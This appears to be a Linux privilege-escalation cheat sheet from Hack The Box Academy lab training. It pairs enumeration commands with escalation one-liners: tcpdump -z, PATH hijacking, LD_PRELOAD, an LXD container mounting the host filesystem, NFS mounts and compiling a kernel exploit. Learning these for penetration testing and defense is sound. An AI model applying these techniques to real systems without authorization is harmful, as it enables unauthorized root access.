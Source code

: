 God of all Enumeration: https://github.com/rebootuser/LinEnum
PEAS: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
Hack Tricks: https://book.hacktricks.xyz/linux-hardening/privilege-escalation
Academy: https://academy.hackthebox.com/module/51/section/466

| **Command**                                                                         | **Description**                                       |
| ----------------------------------------------------------------------------------- | ----------------------------------------------------- |
| `ssh htb-student@<target IP>`                                                       | SSH to lab target                                     |
| `ps aux \| grep root`                                                               | See processes running as root                         |
| `ps au`                                                                             | See logged in users                                   |
| `ls /home`                                                                          | View user home directories                            |
| `ls -l ~/.ssh`                                                                      | Check for SSH keys for current user                   |
| `history`                                                                           | Check the current user's Bash history                 |
| `sudo -l`                                                                           | Can the user run anything as another user?            |
| `ls -la /etc/cron.daily`                                                            | Check for daily Cron jobs                             |
| `lsblk`                                                                             | Check for unmounted file systems/drives               |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`                       | Find world-writeable directories                      |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`                       | Find world-writeable files                            |
| `uname -a`                                                                          | Check the Kernel versiion                             |
| `cat /etc/lsb-release`                                                              | Check the OS version                                  |
| `gcc kernel_expoit.c -o kernel_expoit`                                              | Compile an exploit written in C                       |
| `screen -v`                                                                         | Check the installed version of `Screen`               |
| `./pspy64 -pf -i 1000`                                                              | View running processes with `pspy`                    |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SUID bit set                   |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SETGID bit set                 |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump`                               |
| `echo $PATH`                                                                        | Check the current user's PATH variable contents       |
| `PATH=.:${PATH}`                                                                    | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`                   | Search for config files                               |
| `ldd /bin/ls`                                                                       | View the shared objects required by a binary          |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`                            | Escalate privileges using `LD_PRELOAD`                |
| `readelf -d payroll \| grep PATH`                                                   | Check the RUNPATH of a binary                         |
| `gcc src.c -fPIC -shared -o /development/libshared.so`                              | Compiled a shared libary                              |
| `lxd init`                                                                          | Start the LXD initialization process                  |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`                  | Import a local image                                  |
| `lxc init alpine r00t -c security.privileged=true`                                  | Start a privileged LXD container                      |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`      | Mount the host file system in a container             |
| `lxc start r00t`                                                                    | Start the container                                   |
| `showmount -e 10.129.2.12`                                                          | Show the NFS export list                              |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt`                                           | Mount an NFS share locally                            |